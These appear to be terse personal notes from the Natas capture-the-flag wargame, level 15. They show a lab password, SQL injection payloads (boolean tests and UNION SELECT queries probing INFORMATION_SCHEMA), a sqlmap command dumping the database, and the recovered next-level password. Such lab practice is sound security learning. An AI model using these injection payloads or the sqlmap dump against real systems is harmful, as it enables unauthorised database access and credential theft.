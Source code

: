 user:
pass:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
![[Pasted image 20230215185504.png]]
"natas16" AND "1"="1
smth" UNION ALL SELECT 1,2;#
smth" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema !="mysql" AND table_schema != "information_schema" AND table_schema !="performance_schema" AND substring(table_name,1,1)= "p";#
![[Pasted image 20230215194603.png]]
![[Pasted image 20230215194902.png]]
![[Pasted image 20230215194908.png]]
table users
![[Pasted image 20230215204835.png]]

sqlmap -r natas15.req --batch -D natas15 --dump 
![[Pasted image 20230215204911.png]]
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V